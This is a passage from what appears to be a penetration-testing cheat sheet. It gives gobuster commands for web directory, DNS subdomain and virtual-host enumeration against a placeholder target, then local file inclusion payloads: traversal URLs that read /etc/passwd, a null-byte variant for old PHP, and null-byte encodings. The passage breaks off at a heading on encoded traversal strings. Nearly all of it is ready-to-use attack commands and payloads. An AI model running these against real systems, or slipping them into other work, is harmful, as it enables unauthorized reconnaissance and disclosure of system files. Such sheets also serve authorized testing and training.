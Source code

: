 ##### Common Picture Extensions

```c
png,jpg,jpeg,gif,bmp
```

##### POST Requests

```c
gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://<RHOST>/api/ -e -s 200
```

##### DNS Recon

```c
gobuster dns -d <RHOST> -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
gobuster dns -d <RHOST> -t 50 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
```

##### VHost Discovery

```c
gobuster vhost -u <RHOST> -t 50 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
gobuster vhost -u <RHOST> -t 50 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain
```

##### Specifiy User Agent

```c
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<RHOST>/ -a Linux
```

#### Local File Inclusion (LFI)

```c
http://<RHOST>/<FILE>.php?file=
http://<RHOST>/<FILE>.php?file=../../../../../../../../etc/passwd
http://<RHOST>/<FILE>/php?file=../../../../../../../../../../etc/passwd
```
##### Until php 5.3

```c
http://<RHOST>/<FILE>/php?file=../../../../../../../../../../etc/passwd%00
```

##### Null Byte

```c
%00
0x00
```

##### Encoded Traversal Strings
